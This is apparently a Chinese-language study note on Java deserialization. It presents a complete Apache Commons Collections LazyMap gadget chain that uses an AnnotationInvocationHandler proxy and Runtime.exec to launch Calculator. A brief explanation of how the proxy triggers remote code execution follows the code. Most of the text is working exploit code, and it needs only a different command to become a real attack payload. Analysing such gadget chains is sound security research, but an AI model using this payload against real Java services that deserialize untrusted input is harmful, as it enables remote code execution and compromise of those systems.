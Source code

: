 **Level-3 LazyMap 利用链 payload**

```java
public class LazyMapDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, chainDemo);
        Constructor handler_construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_construct.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_construct.newInstance(Override.class, mapDemo);
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class}, map_handler);
        Constructor AnnotationInvocationHandler_Construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Construct.newInstance(Override.class, proxy_map);
              
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

三个关键点：`this.memberValues`、`invoke` 和 `this.memberValues.entrySet()`

首先 `this.memberValues` 在第一个`InvocationHandler` 对象中被设置成了构造好的 LazyMap，只需要调用其 get 方法即可 RCE

其次动态代理中，调用动态的代理对象任何方法，均会触发之前 `InvocationHandler` 对象的 `invoke` 方法
